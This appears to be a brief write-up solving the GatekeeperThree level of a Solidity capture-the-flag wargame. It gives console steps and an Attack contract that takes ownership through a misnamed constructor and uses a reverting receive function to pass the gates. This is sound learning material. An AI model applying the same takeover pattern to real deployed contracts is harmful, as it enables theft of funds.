

## Description
send 200000000000000 for gateThree() first modifier - balance checks
await contract.createTrick() create and find the block number


By block number find timestamp - await web3.eth.getBlock(6240198)

Get True in allowEntrance - await contract.getAllowance(1720039884)
```
contract Attack{
    GatekeeperThree public gatekeeperThree;

    constructor(address payable _gatekeeperThree){
        gatekeeperThree = GatekeeperThree(_gatekeeperThree);
    }

    function attack() public {
        gatekeeperThree.construct0r();
        gatekeeperThree.enter();
    }

    receive() external payable {
        revert();
    }

}
```